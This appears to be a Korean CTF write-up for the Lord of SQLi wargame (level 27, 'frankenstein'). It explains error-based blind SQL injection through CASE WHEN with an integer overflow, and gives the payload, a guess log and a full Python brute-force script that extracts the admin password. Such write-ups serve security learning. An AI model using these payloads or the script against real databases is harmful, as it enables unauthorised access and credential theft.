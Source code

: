 ```yaml
---
title: "[LOS] 27번 문제 풀이(frankenstein)"
categories:
  - los
tags:
  - los
  - rubiya
  - los 27번
  - los frankenstein
  
toc: true
toc_sticky: true
toc_label: "27번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/sql.png
---
```


💡 los.rubiya.kr 27번 문제에 대한 풀이입니다. 
{: .notice--warning}


# 27번(frankenstein)
## 문제
![image](https://user-images.githubusercontent.com/33647663/160069678-f1c87fb5-bd4a-4417-bdc2-f1cbe3455ac5.png)

## 풀이
코드를 보면 에러가 발생하면 error 화면을 띄우고, 정상적으로 쿼리가 실행된다면 해당 화면이 다시 그대로 출력됩니다.

![image](https://user-images.githubusercontent.com/33647663/160076422-e8c3040d-40db-43a5-938c-b814ba1e8e25.png)

따라서 flow control 기능이 있는 if, case 등을 이용해서 

1. 참인경우 -> error
2. 거짓인 경우 -> 정상 쿼리

가 나오도록 유도하여, 조건문의 참 거짓의 비교를 통해서 blind sql injection이 가능합니다.

이제 문제는 어떠한 방식으로 flow control을 하냐인데, 제가 아는 방법은 3가지가 있습니다.
```md
1. if(조건문, error 발생,'false' )
  -> 조건문이 '참'일때 에러를 발생시키고, 거짓일때는 에러를 발생 시키지 않음

2. select case when 조건문 then **error발생** else 'false' end
  -> 동일하게 조건문의 참거짓을 이용 가능

3. select id where id=(select 1 union select 2 where 조건문)
  -> 단일행 연산자인 '=' 에 비교 대상에서 where 조건이 '참'이 된다면 id=(1,2) 가 되어서 [단일행 = 2개의 행] 의 오류가 발생합니다.
```
이번 문제에서는 union과 괄호가 필터링 되었으니, 2번의 방법을 통해서 문제를 풀 수 있습니다.

blind sql injection에 사용한 핵심 페이로드는 아래와 같으며 비밀번호를 한글자씩 비교하면서 정답을 찾습니다.

```
#페이로드
pw=' or id='admin' and case when pw like '{}%' then 123412341234*123412341234 end#
```

```
' or id='admin' and case when pw like '0%' then 123412341234*123412341234 end#
find the pw 0
' or id='admin' and case when pw like '00%' then 123412341234*123412341234 end#
' or id='admin' and case when pw like '01%' then 123412341234*123412341234 end#
' or id='admin' and case when pw like '02%' then 123412341234*123412341234 end#
' or id='admin' and case when pw like '03%' then 123412341234*123412341234 end#
...

' or id='admin' and case when pw like '0dc4efb9%' then 123412341234*123412341234 end#
' or id='admin' and case when pw like '0dc4efba%' then 123412341234*123412341234 end#
' or id='admin' and case when pw like '0dc4efbb%' then 123412341234*123412341234 end#
find the pw 0dc4efbb

```

전체 코드는 다음과 같습니다.

```python
import string
import requests

url = "https://los.rubiya.kr/chall/frankenstein_b5bab23e64777e1756174ad33f14b5db.php"
cookies = {"PHPSESSID" : "595dl7ejl1io50mt9bhg0dbmpk"}
params = {"pw" : None}


domain = string.digits + string.ascii_lowercase

# 비밀번호
pw = ''
for i in range(30):
    for j in domain:
        payload = "' or id='admin' and case when pw like '{}%' then 123412341234*123412341234 end#".format(pw+j)
        params["pw"] = payload
        print(payload)
        response = requests.get(url,params=params,cookies=cookies)
        #print(response.text)
        if(response.text.count("error") == 1):
            pw += j
            print("find the pw",pw)
            break
    if(j == domain[-1]):
        print("finish find the pw",pw)
        break
```

pw = 0dc4efbb

![image](https://user-images.githubusercontent.com/33647663/160077551-a9479e1e-b937-4a84-976d-2e73c04abe1f.png)